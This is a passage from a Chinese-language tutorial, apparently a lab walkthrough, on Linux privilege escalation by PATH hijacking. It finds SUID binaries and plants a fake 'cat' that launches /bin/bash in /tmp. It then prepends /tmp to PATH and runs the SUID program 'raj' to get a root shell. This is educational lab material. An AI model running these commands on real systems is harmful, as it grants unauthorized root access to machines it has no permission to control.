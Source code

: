 [![](https://p3.ssl.qhimg.com/t017d079d4374b51604.png)](https://p3.ssl.qhimg.com/t017d079d4374b51604.png)

### <a class="reference-link" name="%E6%B8%97%E9%80%8F%E5%8F%97%E5%AE%B3%E8%80%85%E7%9A%84VM%E6%9C%BA%E5%99%A8"></a>渗透受害者的VM机器

再次登陆受害者的系统，然后进入提权阶段并执行以下命令查看sudo用户列表。

```
find / -perm -u=s -type f 2&gt;/dev/null
```

在这里，我们还可以发现/home/raj/script/raj具有suid权限，然后我们进入/home/raj /script并看到一个可执行文件”raj”。所以当我们运行这个文件时，它会把etc/passwd文件作为结果。

```
cd /home/raj/script/
ls
./raj
```

[![](https://p0.ssl.qhimg.com/t01965a4081c0ad89af.png)](https://p0.ssl.qhimg.com/t01965a4081c0ad89af.png)

## 

### <a class="reference-link" name="Nano%20%E7%BC%96%E8%BE%91%E5%99%A8"></a>Nano 编辑器

```
cd /tmp
nano cat
```

现在在终端输入/bin/bash并保存。<br>[![](https://p0.ssl.qhimg.com/t013342c0e70fb13e33.png)](https://p0.ssl.qhimg.com/t013342c0e70fb13e33.png)

```
chmod 777 cat
ls -al cat
echo $PATH
export PATH=/tmp:$PATH
cd /home/raj/script
./raj
whoami
```

[![](https://p0.ssl.qhimg.com/t01acb9042a1a1b4baf.png)](https://p0.ssl.qhimg.com/t01acb9042a1a1b4baf.png)

## 

## 方法4

Ubuntu LAB SET_UP<br>
重复上面的步骤来设置你自己的实验环境，你可以在我们的demo.c文件中看到我们正在调用cat命令来读取/home/raj中的msg.txt，但是/home/raj中没有这样的文件。<br>[![](https://p3.ssl.qhimg.com/t0178ce97b62f28593e.png)](https://p3.ssl.qhimg.com/t0178ce97b62f28593e.png)
